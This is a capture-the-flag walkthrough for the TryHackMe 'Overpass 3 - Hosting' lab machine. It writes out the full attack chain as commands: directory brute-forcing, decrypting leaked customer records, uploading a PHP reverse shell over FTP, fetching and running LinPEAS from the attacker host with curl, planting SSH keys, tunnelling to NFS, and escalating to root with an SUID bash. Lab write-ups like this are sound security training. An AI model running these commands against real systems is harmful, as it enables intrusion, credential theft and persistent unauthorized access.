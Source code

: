 # Overpass 3 - Hosting

Link: [Overpass 3 - Hosting](https://tryhackme.com/room/overpass3hosting)

## High-Level Overview

The Overpass company decided to launch a new business venture of web hosting. Let's see if they learned from past mistakes and they are secure.

## Tools Needed

* Nmap
* Gobuster
* Reverse php shell
* LinPEAS
* sshpass

## Walkthrough

We begin with an nmap scan of the machine:

```bash
sudo nmap -T5 -vvv -A -Pn -oN nmap-scan -p- MACHINE:IP
```

We have identified 3 ports open:

* 21 - ftp
* 22 - ssh
* 80 - http

Exploring the web application we come across the employee list which serves as a list of potential login credentials: `Paradox`, `Elf`, `MuirlandOracle`, `NinjaJc01`

We try to find other interesting locations on the web application using gobuster

```bash
$ gobuster dir -k -u MACHINE:IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We have found a page in `http://MACHINE:IP/backups` which contains an archive named `backup.zip`

The archive contains 2 files: `priv.key` and `CustomerDetails.xlsx.gpg`. We can use `gpg` to decrypt the `CustomerDetails.xlsx` file.

```bash
$ gpg --import priv.key
$ gpg --decrypt-file CustomerDetails.xlsx.gpg
```

The decrypted file contains customers usernames as well as passwords and credit card information.

We can try connecting to the ftp service running on the server using the identified credentials

```bash
$ ftp MACHINE:IP
# paradox
# ShibesAreGreat123
> ls
```

Seems like the `paradox` user is in charge of the web application resources. Since we can upload files we can try uploading a php reverse shell from https://github.com/pentestmonkey/php-reverse-shell.

```bash
> put shell.php
> exit
```

We can start a netcat listener and to trigger the shell we can browse to where the shell is uploaded.

```bash
$ nc -nlvp 1234
$ curl -s http://MACHINE:IP/shell.php
```

Now we should have a reverse shell binding to us. We can start looking for the web flag. We use the following commands to find and display the web flag.

```bash
$ find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
$ cat /usr/share/httpd/web.flag
```

Now we need to find the user flag, and we know it should be listed under `/home/james/`.

We can log switch user to paradox since we know the credentials already. Then we can transfer the LinPEAS enumeration tool, by hosting a Python Simple HTTP server on the attacking machine and using curl on the overpass machine:

* on the attacking machine:

```bash
python3 -m http.server 8000
```

* on the overpass machine:

```bash
$ su paradox
# upgrade the shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL+Z
$ stty raw -echo;fg
$ export SHELL=bash
$ export TERM=xterm-256color
# change to the user's home folder so we have permission to write
$ cd /home/paradox
$ curl -s http://VPN:IP:8000/linpeas.sh -o linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Investigating the output, nothing seems like it would help, but there appears to be a NFS share under `/home/james` running on port 2049. This however is only accessible to localhost.

* on the attacking machine

```bash
$ ssh-keygen
# go through the options
# you will have 2 files: id_rsa private key and id_rsa.pub public key
$ cat id_rsa.pub
```

* on the overpass machine

```bash
# echo the contents of your id_rsa.pub file in the authorized_keys
$ echo "ssh-rsa -PUBLIC-KEY-CONTENTS- radu@kali" >> /home/paradox.ssh/authorized_keys
```

* back on the attacking machine

```bash
$ ssh paradox@MACHINE:IP -i id_rsa
```

After logging in using SSH we investigate the NFS service

```bash
$ service rpcbind status
$ ss -natu | grep 2049
```

Log out of the previous ssh session and connect back using SSH but this time tunnel through the NFS service.

```bash
ssh -i id_rsa -L 2049:127.0.0.1:2049 paradox@MACHINE:IP
```

Back on your attacking machine, mount the NFS share using the commands below. The `user.flag` file has the second flag of this challenge.

```bash
$ mkdir tmp
$ sudo mount -t nfs -o port=2049 localhost:/ ./tmp
```

Inside the mounted share we also have a `.ssh/` folder that has authorized_keys. We will also be replacing the authorized key contents with our own public key

```bash
$ echo "ssh-rsa -PUBLIC-KEY-CONTENTS- radu@kali" >> /tmp/.ssh/authorized_keys
```

Now we can use SSH to log in as `james`

```bash
$ ssh james@MACHINE:IP -i id_rsa
```

We can copy the bash files of james into the NFS share mount location with the command

```bash
cp /usr/bin/bash /home/james/
```

In the mounted directory on the attacking machine, we need to do a few things as root user:

```bash
$ sudo chown root:root bash
$ sudo chmod +s bash
```

And finally, on the overpass machine as user james we need to run

```bash
$ ./bash -p
```

Finally, we are root and we can go to the `root` folder and get the final flag.

```bash
$ cd /root
$ cat root.flag
```